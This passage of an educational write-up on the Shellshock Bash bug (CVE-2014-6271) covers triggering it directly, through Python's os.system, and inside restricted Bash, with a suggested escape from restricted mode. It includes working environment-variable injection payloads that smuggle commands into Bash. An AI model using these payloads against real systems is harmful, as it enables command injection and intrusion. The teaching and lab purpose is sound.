 The interesting thing is that
this doesn't look like a parsing bug but a feature.

I was succeeded to trigger this one in a vulnerable VM from
[PentesterLab](https://pentesterlab.com/exercises/cve-2014-6271)
but I couldn't trigger it in my own lab.

Here is how it should be invoked:

```shell
$ X='() { _; } >_[$($())] { /bin/sleep 5 }' bash -c 'date'      # byexample: +skip
```

## Subshells from Python, Ruby

It is not necessary to run Bash directly to trigger the vuln.

Any process that pass the env variables to a vulnerable Bash is enough:

```shell
$ X='() { :; }; echo "vuln"' python -c 'import os; os.system("ls")'
vuln
<...>
```

Python's ``os.system`` spawns a shell, typically ``/bin/sh`` and runs
inside it the given command.

The trick is that ``/bin/sh`` in some mainstream systems is a link
to ``/bin/bash``, enabling the bug to other interpreters.

Python, Ruby, virtually any software the spawn a subshell is affected.


## Restricted Bash bypass

We cannot trigger the vuln if the shell spawned is in restricted mode

```shell
$ X='() { :;}; /bin/echo vuln' bash -r -c 'echo baz'
baz
```

This is because:

> "A restricted shell [...] (does not allow) importing function definitions
> from the shell environment at startup"
>
> <footer><a href="https://linux.die.net/man/1/bash">bash(1)</a>, <em>Restricted shell</em></footer>

But the same man page gives us a way to escape: nothing prevent us to
trigger the vuln *within* the restricted shell:

> "When a command that is found to be a shell script is executed [...],
> rbash  turns  off  any restrictions in the shell spawned to execute
> the script."
>
> <footer><a href="https://linux.die.net/man/1/bash">bash(1)</a>, <em>Restricted shell</em></footer>

